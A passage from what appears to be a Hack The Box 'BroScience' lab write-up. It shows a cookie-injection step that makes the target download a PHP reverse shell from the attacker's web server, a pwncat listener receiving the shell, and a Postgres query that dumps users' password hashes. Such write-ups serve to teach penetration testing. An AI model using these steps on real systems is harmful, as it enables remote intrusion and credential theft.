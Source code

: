 ```bash
# Change your user-prefs cookie to include the serialized data and reload the page after you started the webserver
# Host a simple webserver
┌──(mrk㉿oscp)-[~/Dokumente/htb/lab/broscience]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.126.84 - - [09/Jan/2023 23:05:31] "GET /rev.php HTTP/1.0" 200 -

# Now just open rev.php either in your browser or using the commandline
┌──(mrk㉿oscp)-[~/Dokumente/htb/lab/broscience]
└─$ curl -k https://broscience.htb/rev.php

# We got a shell
┌──(mrk㉿oscp)-[~]
└─$ pwncat-cs -lp 4444
[23:05:40] Welcome to pwncat 🐈!                                                                                                                                                                                             __main__.py:164
[23:05:41] received connection from 10.129.126.84:47600                                                                                                                                                                           bind.py:84
[23:06:02] 10.129.126.84:47600: registered new host w/ db
```

## Privilege Escalation - Bill

### Postgres 

We start with enumeration of the database of which we already discovered the credentials

```bash
psql -h localhost -d broscience -U dbuser -W

broscience-> \d
                List of relations
 Schema |       Name       |   Type   |  Owner   
--------+------------------+----------+----------
 public | comments         | table    | postgres
 public | comments_id_seq  | sequence | postgres
 public | exercises        | table    | postgres
 public | exercises_id_seq | sequence | postgres
 public | users            | table    | postgres
 public | users_id_seq     | sequence | postgres
 
 broscience=> SELECT * FROM users;
 administrator:15657792073e8a843d4f91fc403454e1
 bill:13edad4932da9dbb57d9cd15b66ed104
 michael:bd3dad50e2d578ecba87d5fa15ca5f85
 john:a7eed23a7be6fe0d765197b1027453fe
 dmytro:5d15340bded5b9395d5d14b9c21bc82b
```
